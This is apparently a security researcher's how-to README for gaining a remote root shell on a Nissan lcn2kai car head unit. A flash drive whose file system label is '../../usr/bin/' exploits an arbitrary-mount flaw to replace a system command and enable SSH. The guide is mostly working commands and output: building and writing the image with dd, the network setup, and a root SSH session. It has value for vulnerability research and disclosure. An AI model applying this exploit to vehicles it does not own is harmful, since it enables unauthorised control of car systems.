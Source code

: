 # Rootshell How-To

The main writeup goes over system overview and the whole discovery process. This is a shorter guide that should be easy to follow. 

#### Table Of Contents

- [Preparing the flash drive](#preparing-the-flash-drive)
- [Connecting via network](#connecting-via-network)
- [Testing on other models](#testing-on-other-models)

## Preparing the flash drive

As discussed in the full  writeup, to gain a remote root shell on the head unit, we can abuse the arbitrary mount vulnerability. In short, this vulnerability lets us replace certain system commands with ones of our choosing. 
To do so , we must prepare a flash drive with a special file system. Script `rootshellfs.sh` will create an `ext2` file system image of 8mb and copy `logger` script to it. The created filesystem will have it's UUID set to empty and FS label set to `../../usr/bin/` which is what we need for exploit to work. You should see something like:

```
$ ./rootshellfs.sh
8192+0 records in
8192+0 records out
8388608 bytes (8.4 MB, 8.0 MiB) copied, 0.0269391 s, 311 MB/s
mke2fs 1.45.5 (07-Jan-2020)
Discarding device blocks: done
Creating filesystem with 2048 4k blocks and 2048 inodes

Allocating group tables: done
Writing inode tables: done
Writing superblocks and filesystem accounting information: done

======================================
Rootshell file system prepared. Insert flash drive and do:
$ sudo dd if=./rootshell.ext2 of=/dev/sd#
Make sure to replace sd# with your actuall flash drive and don't overwrite your system drive!!!
```

Above will create a file called `rootshell.ext2` which must then be written to your flash drive directly (not copied to existing file system). NOTE: This will effectively erase any data that is present on the drive, so make sure it's empty. Easy way to write this image to flash drive is via `dd`, as the shell script instructs:

```
$ sudo dd if=./rootshell.ext2 of=/dev/sdb
16384+0 records in
16384+0 records out
8388608 bytes (8.4 MB, 8.0 MiB) copied, 0.0208436 s, 402 MB/s
```
That's it. The flash drive is prepared. Eject it and go to your car. 

Next step is to actually execute the exploit, which is very simple. Turn on the head unit (the car doesn't have to actually run, key in ON position). Wait till the system boots up and navigation or radio starts and simply insert the USB flash drive. 

If everything went according to plan, you should see the lcn2kai reboot after about 10 seconds. 

Make sure to unplug your usb flash drive before the system boots up again! If the whole thing worked, when you open the flash drive on your computer again (it's ext2 file system, so linux required), besides `logger` script and `lost&found` you should see a file named `it_worked` with kernel info in it:

```
$ cat /media/user/.._.._usr_bin_/it_worked
Linux (none) 2.6.34.13-02018-g843e5c6 #1 SMP PREEMPT Thu May 15 16:58:54 IST 2014 armv6l GNU/Linux
```

That really confirms that code execution has worked and that SSHd should be enabled on the car's head unit. 

## Connecting via network

Now that the usb flash exploit has been executed, the SSH daemon should be enabled and we should be able to connect to the head unit remotely. There are only two requirements, a specific network adapter and static IP config. As the main writeup explains, only a limited number of devices are supported. If you don't already have one, you will need to obtain a USB Ethernet adapter that's based on ASIX `AX88772B` controller. These are fairly common and I've used this generic one branded as `Manhattan USB 2.0 Fast Ethernet Adapter` which should be around $10. Whichever one you get, test it out on your linux machine to make sure it has the correct controller. You should see something like the following in `dmesg` output:

```
[388457.942658] usb 3-2: New USB device found, idVendor=0b95, idProduct=772b, bcdDevice= 0.01
[388457.942663] usb 3-2: New USB device strings: Mfr=1, Product=2, SerialNumber=3
[388457.942666] usb 3-2: Product: AX88772B
[388457.942669] usb 3-2: Manufacturer: ASIX Elec. Corp.
[388457.942671] usb 3-2: SerialNumber: 000006
[388458.965005] asix 3-2:1.0 eth0: register 'asix' at usb-0000:00:14.0-2, ASIX AX88772B USB 2.0 Ethernet, 00:6f:00:01:24:09
[388458.965145] usbcore: registered new interface driver asix
[388458.990310] asix 3-2:1.0 enx006f00012409: renamed from eth0
```

Next , you'll need to configure ethernet interface on your laptop to have a static IP address. By default, `lcn2kai` is configured with address `172.17.0.1` and netmask 255.255.0.0 , so on laptop side we want 172.17.0.5 as a static IP (other lcn2kai services expect debug system to be at .5 ). When you have the static IP set up, plug the USB Ethernet adapter into car's USB port and connect it via ethernet cable to your laptop. Turn on the system and once it's fully booted up (it might take a while for all of init.d to be done and sshd actually starts) you should be able to simply ssh into lcn2kai:

```
$ ssh root@172.17.0.1
!! The root file system is READ-ONLY !!
root@(none):~# uname -a
Linux (none) 2.6.34.13-02018-g843e5c6 #1 SMP PREEMPT Thu May 15 16:58:54 IST 2014 armv6l GNU/Linux
root@(none):~# cat /
/                     /etc/                 /media/               /rfs_version.txt      /usr/
/Settings/            /home/                /mnt/                 /sbin/                /var/
/bin/                 /include/             /share/
/boot/                /lcn2kai_version.txt  /opt/                 /shared/
/cc_label.txt         /lib/                 /proc/                /sys/
/dev/                 /lost+found/          /rfs2/                /tmp/
root@(none):~# cat /lcn2kai_version.txt
AI_PRJ_NISSAN_LCN2KAI_13.14V12
root@(none):~#
```

Now you can look around, edit configuration files and make yourself more comfortable. 

